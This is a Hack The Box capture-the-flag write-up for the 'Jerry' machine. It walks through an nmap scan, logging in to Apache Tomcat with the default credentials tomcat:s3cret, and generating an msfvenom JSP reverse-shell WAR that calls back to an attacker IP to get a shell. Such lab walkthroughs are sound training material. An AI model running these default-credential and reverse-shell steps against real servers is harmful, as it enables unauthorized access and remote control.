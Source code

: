 ```yaml
---
layout: post
title: "HTB: Jerry"
date: 2025-03-09
categories:
  - CTF
  - HTB
tags:
  - Windows
---
```


![](https://jawad.ca/images/Jerry.png)

## Enumeration
```shell
kali@jawad:~$ nmap -sC -sV 10.129.135.12
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-09 16:50 EDT
Nmap scan report for 10.129.135.12
Host is up (0.023s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.23 seconds
```

We noticed port 8080 open with an Apache Tomcat service running on that port.


![](https://jawad.ca/images/jerry1.png)

Default tomcat credentials worked:  `tomcat:s3cret`


![](https://jawad.ca/images/jerry2.png)


Tomcat is a Java web application server, so let's try uploading a `.war` web shell.


```shell
kali@kali:~$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.91 LPORT=4444 -f war > shell.war
Payload size: 1100 bytes
Final size of war file: 1100 bytes

kali@kali:~$ ll | grep .war
-rw-rw-r--  1 kali kali  1100 Mar  9 18:04 shell.war
```


And we got our shell!


![](https://jawad.ca/images/jerry3.png)


Et voilà! We found both flags under the `Administrator/Desktop` directory.

